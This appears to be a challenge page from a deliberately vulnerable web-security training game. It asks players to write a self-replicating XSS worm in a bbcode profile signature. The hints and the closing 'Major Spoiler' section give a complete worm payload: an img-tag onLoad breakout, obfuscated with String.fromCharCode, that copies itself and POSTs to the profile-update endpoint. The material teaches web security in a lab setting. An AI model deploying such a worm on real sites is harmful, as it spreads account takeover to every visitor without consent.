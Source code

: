# XSS/CSRF Challenge 5

----------------------

Hey friend,

I've got a challenge for you.

Using the same concept from challenge 3, craft an XSS exploit in the profile signature that behaves like a worm, updating the profile signature of anyone who views an infected profile to also have the same exploit code on their profile.

To do this, you'll need to escape out of the bbcode parser and get javascript execution, use javascript to get a copy of the exploit code, and craft some javascript (perhaps using ajax) to submit a request to the server to update the user's profile signature.

I have a phantomjs bot setup that will log in as my admin account and visit all user profiles in the game - to trigger it, just go to Trigger Admin Browser in the navigation. See if you can get the exploit on the admin's profile signature via this worm!

Thanks!

-Breakthenet Game Owner

----------------------

Stuck? 
----------------------
<details> 
  <summary>Click for hint 1</summary>
   You don't have jquery on the page, so you'll need to google how to do an ajax call with plain, vanilla javascript. You also need to gather the details about the call you need to do (get it from the Preferences / Profile Signature form page).
</details>

<details> 
  <summary>Click for hint 2</summary>
   To get a copy of the worm for the payload, have the code refer to itself!
   
   E.g. ```<img src='' id='bob' onLoad='document.getElementById("bob").getAttribute("onLoad")'>```
</details>

<details> 
  <summary>Click for hint 3</summary>
   You may find you need to use some characters in your payload that are difficult to escape properly (or just might be sanitized). To get around this, look at the javascript function String.fromCharCode.
</details>

<details> 
  <summary>Click for hint 4</summary>
   While constructing your payload, you may find this function useful:
   
   ```
String.prototype.toCharCode = function(){
    var str = this.split(''), len = str.length, work = new Array(len);
    for (var i = 0; i < len; ++i){
        work[i] = str[i].charCodeAt();
    }
    return work.join(',');
}
   ```
</details>

<details> 
  <summary>Click for hint 5</summary>
   If you run into trouble concatenating javascript strings with the plus symbol (+), try using the concat function instead!
   ```
   str1.concat(str2);
   ```
</details>

<details> 
  <summary>Major Spoiler - one possible solution</summary>
  If you've come this far but can't quite finish it off, I feel obligated to show you what a solution would look like. Here you go!
   ```
   [img]http://www.nyan.cat/cats/original.gif" id='uniqueimgid' onLoad="var xmlhttp;if (window.XMLHttpRequest) xmlhttp=new XMLHttpRequest();else xmlhttp=new ActiveXObject('Microsoft.XMLHTTP');xmlhttp.open('POST', 'preferences.php?action=profilesig2', true);xmlhttp.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');xmlhttp.send('newprofilesig='.concat(String.fromCharCode(91,105,109,103,93,104,116,116,112,58,47,47,119,119,119,46,110,121,97,110,46,99,97,116,47,99,97,116,115,47,111,114,105,103,105,110,97,108,46,103,105,102,34,32,105,100,61,39,117,110,105,113,117,101,105,109,103,105,100,39,32,111,110,76,111,97,100,61,34)).concat(document.getElementById('uniqueimgid').getAttribute('onLoad')).concat(String.fromCharCode(91, 47, 105, 109, 103, 93)));[/img]
   ```
</details>